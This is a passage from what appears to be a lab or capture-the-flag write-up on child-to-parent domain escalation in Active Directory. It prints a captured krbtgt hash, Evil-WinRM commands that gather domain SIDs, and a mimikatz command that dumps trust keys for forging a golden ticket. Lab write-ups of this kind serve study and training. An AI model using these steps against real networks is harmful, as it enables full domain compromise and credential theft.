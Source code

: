![Desktop View](/assets/img/sample/Trusteds/image%205.png){: .normal }

krbtgt : `c7a03c565c68c6fac5f8913fab576ebd`

1. the **SID of the child domain**,

```bash
*Evil-WinRM* PS C:\Users\cpowers\Documents> Get-DomainSID
S-1-5-21-2241985869-2159962460-1278545866
*Evil-WinRM* PS C:\Users\cpowers\Documents> 
```

1. a **target username** in the child domain (which can be fictitious),

I choose Administrator

2. the **FQDN** (fully qualified domain name) of the child domain,

```bash
*Evil-WinRM* PS C:\Users\cpowers\Documents> Get-Domain | Select-Object Name

Name
----
lab.trusted.vl
```

3.  the **SID of the Enterprise Admins group** in the parent (root) domain.

```bash
.\mimikatz.exe "privilege::debug" "lsadump::trust /patch" "exit"
```

![Desktop View](/assets/img/sample/Trusteds/image%206.png){: .normal }
